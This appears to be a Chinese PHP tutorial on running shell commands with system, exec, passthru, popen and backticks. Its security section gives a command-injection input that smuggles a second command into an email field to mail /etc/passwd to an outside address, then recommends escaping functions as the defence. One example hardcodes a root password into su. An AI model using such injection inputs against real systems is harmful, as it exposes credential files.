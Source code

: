 #PHP执行外部命令

##PHP提供的专门函数

1. system函数

		string system(string command [,int return_var] ),
		
		<?php  
		error_reporting(E_ALL);  //打印所有的环境变量
		$lastLineRes=system("dir");    
		echo "<br/>$lastLineRes<br/>"; 

2. exec函数

		string exec(string commad [,array res [, int return_var] ] )
		不输出并返回最后一行结果，array res 是存放所有执行结果的数组，return_var是状态码。
		
		print_r(exec("dir"));  
		print_r(exec("dir",$res));  
		print_r(exec("dir",$res2,$statu)); 

3. passthru函数

		void passthru(string commad [,int return_var] ),
		只调用命令，不返回任何结果，但把命令的运行结果原样地直接输出到标准输出设备上,经常用来调用像pbmplus （Unix下的一个处理图片的工具，输出二进制的原始图片的流）这样的程序。

		passthru('1.gif);//会调用图形查看器显示图片
		passthru('E:\notes\sn\bibao.md');//会调用markdown来打开此文件

###使用函数popen()打开进程

上面的方法只能简单地执行命令，却不能与命令交互。但有些时候必须向命令输入一些东西，如在增加Linux的系统用户时，要调用su来把当前用户换到root才行，而su命令必须要在命令行上输入root的密码。这种情况下，用上面提到的方法显然是不行的。 

popen ()函数打开一个进程管道来执行给定的命令，返回一个文件句柄。既然返回的是一个文件句柄，那么就可以对它读和写了。

在PHP3中，对这种句柄只能做单一的操作模式，要么写，要么读；从PHP4开始，可以同时读和写了。除非这个句柄是以一种模式（读或写）打开的，否则必须调用pclose()函数来关闭 它。

		/* PHP中如何增加一个系统用户  
		下面是一段例程，增加一个名字为james的用户,  
		root密码是 verygood。仅供参考  
		*/   
		$sucommand = "su --login root --command";   
		$useradd = "useradd ";   
		$rootpasswd = "verygood";   
		$user = "james";   
		$user_add = sprintf("%s "%s %s"",$sucommand,$useradd,$user);   
		$fp = @popen($user_add,"w");   
		@fputs($fp,$rootpasswd);   
		@pclose($fp);   

##使用反撇号`
这个方法以前没有归入PHP的文档，是作为一个秘技存在的。方法很简单，用两个反撇号把要执行的命令括起来作为一个表达式，这个表达式的值就是命令执行的结果。如： 

		$res='ls -l';   
		echo "`$res`";  

##要考虑两个问题：安全性和超时。 
      
a.先看安全性。

比如，你有一家小型的网上商店，所以可以出售的产品列表放在一个文件中。你编写了一个有表单的HTML文件，让你的用户输入他们的EMAIL地 址，然后把这个产品列表发给他们。假设你没有使用PHP的mail()函数（或者从未听说过），你就调用Linux/Unix系统的mail程序来发送这 个文件。程序就象这样： 

	system("mail $to < products.txt");   

如果有个恶意的用户输入了这样一个EMAIL地址：`'--bla ; mail someone@domain.com < /etc/passwd ;' `，那么这条命令最终变成：`'mail --bla ; mail someone@domain.com < /etc/passwd ; < products.txt' `

PHP为我们提供了两个函数：`EscapeShellCmd()`和`EscapeShellArg()`。函数EscapeShellCmd把一个字符串 中所有可能瞒过Shell而去执行另外一个命令的字符转义。这些字符在Shell中是有特殊含义的，象分号（），重定向（>）和从文件读入 （<）等。函数EscapeShellArg是用来处理命令的参数的。它在给定的字符串两边加上单引号，并把字符串中的单引号转义，这样这个字符串 就可以安全地作为命令的参数

b.超时问题。

如果要执行的命令要花费很长的时间，那么应该把这个命令放到系统的后台去运 行。但在默认情况下，像system()等函数要等到这个命令运行完才返回（实际上是要等命令的输出结果），这肯定会引起PHP脚本的超时。解决的办法是把命令的输出重定向到另外一个文件或流中，如：

	system("/usr/local/bin/order_proc > /tmp/null &");   